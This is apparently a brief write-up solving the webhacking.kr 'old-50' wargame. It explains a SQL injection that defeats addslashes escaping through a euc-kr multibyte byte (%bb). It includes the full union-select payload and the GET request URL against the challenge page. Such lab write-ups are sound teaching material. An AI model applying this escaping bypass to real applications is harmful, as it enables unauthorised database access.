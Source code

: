 # Webhacking old-50 Solution

another sql injection.
here we use insert %bb and then, after the addslashes put `\` before the `'`, it'll take the %bb + `\` and encode in `euc-kr` format.

this is the payload i gave:

(notice that i added \**\, because i want that the union will be in the `pw`, because I can't put it inside id)
here we want to insert this: `id=%bb%27%0b/*&pw=*/union%0bselect%0b3%0b--%0b'`

this is the query i used in the http get
```
https://webhacking.kr/challenge/web-25/?id=%bb%27%0b/*&pw=*/union%0bselect%0b3%0b--%0b
```

s